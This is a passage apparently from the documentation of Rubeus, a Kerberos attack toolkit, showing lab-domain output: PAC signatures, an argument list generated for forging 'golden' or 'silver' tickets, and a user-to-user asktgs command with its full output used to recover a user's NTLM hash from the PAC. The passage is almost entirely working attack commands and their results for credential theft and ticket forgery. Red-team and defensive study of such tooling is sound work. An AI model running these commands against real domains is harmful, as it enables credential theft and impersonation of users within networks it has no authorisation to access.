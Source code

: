           Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : 96FA020562EE73B38D31AEEF (VALID)
        KDCChecksum            :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : E7FDCBAF5F580DFB567DF102 (UNVALIDATED)


    [*] Printing argument list for use with Rubeus' 'golden' or 'silver' commands:

    /user:harmj0y /id:1106 /pgid:513 /logoncount:8 /badpwdcount:0 /sid:S-1-5-21-3237111427-1607930709-3979055039 /netbios:RUBEUS /displayname:"Harm J0y" /groups:513 /sids:S-1-18-1 /pwdlastset:"14/07/2021 02:07:12" /minpassage:1d /dc:PDC1.RUBEUS.GHOSTPACK.LOCAL /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD

Using PKINIT to request a TGT and then requesting a user-to-user service ticket to gain access to the NTLM hash stored within the PAC (manually performing the `/getcredentials` flag to **asktgt**):

    C:\Rubeus>Rubeus.exe asktgs /u2u /asrepkey:CC9D16AB01D1BD0EF9EBD53C8AD536D9 /ticket:doIF9DCCBfCgAwIBBaED...(snip)...ay5sb2NhbA== /tgs:doIF9DCCBfCgAwIBBaED...(snip)...ay5sb2NhbA==

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building User-to-User TGS-REQ request for: 'harmj0y'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIFxTCCBcGgAwIBBaEDAgEWooIE1DCCBNBhggTMMIIEyKADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          RVVTLkdIT1NUUEFDSy5MT0NBTKkUMBKgAwIBAaELMAkbB2hhcm1qMHk=

      ServiceName              :  harmj0y
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  19/07/2021 23:01:05
      EndTime                  :  20/07/2021 09:00:38
      RenewTill                :  26/07/2021 23:00:38
      Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
      KeyType                  :  rc4_hmac
      Base64(key)              :  Qm9zdwFIINSHAAmqaviuEw==
      ASREP (key)              :  CC9D16AB01D1BD0EF9EBD53C8AD536D9
      Decrypted PAC            :
        LogonInfo              :
          LogonTime            : 19/07/2021 22:59:21
          LogoffTime           :
          KickOffTime          :
          PasswordLastSet      : 14/07/2021 02:07:12
          PasswordCanChange    : 15/07/2021 02:07:12
          PasswordMustChange   :
          EffectiveName        : harmj0y
          FullName             : Harm J0y
          LogonScript          :
          ProfilePath          :
          HomeDirectory        :
          HomeDirectoryDrive   :
          LogonCount           : 7